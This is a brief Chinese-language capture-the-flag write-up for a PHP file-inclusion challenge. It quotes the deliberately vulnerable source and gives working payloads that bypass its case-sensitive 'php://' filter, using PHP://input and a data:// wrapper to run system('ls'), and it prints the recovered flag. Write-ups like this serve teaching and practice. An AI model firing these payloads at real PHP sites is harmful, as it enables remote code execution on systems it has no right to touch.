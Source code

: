 # Web_php_include
## 题目
```php
<?php
show_source(__FILE__);
echo $_GET['hello'];							//hello变量接受get传参
$page=$_GET['page'];							//page变量接受get传参
while (strstr($page, "php://")) {				//检查page变量中是否含有字符串"php://"
    $page=str_replace("php://", "", $page);		//将page变量中的“php://”用空字符串代替
}
include($page);									//文件包含，可以执行page变量中的代码。
?>
```

## 思路
本题为简单的文件包含
1. 分析代码可以得知`page`中带有`php://`的都会被替换成空，但由于`strstr()`这个函数是区分大小写的所以可以转换成大小写用`PHP://`，可以使用`PHP://input`POST提交`<?php system("ls")?>`。
2. 由于过滤了`php://`,所以可以使用`data://`伪协议`?page=data://text/plain/,<?php%20system("ls");?>`
  
可以看到当前目录下有如下`fl4gisisish3r3.php index.php phpinfo.php`文件。  
`cat fl4gisisish3r3.php`F12查看被注释的内容获得flag为`$flag="ctf{876a5fca-96c6-4cbd-9075-46f0c89475d2}`

## 总结
本体为文件包含漏洞的利用。
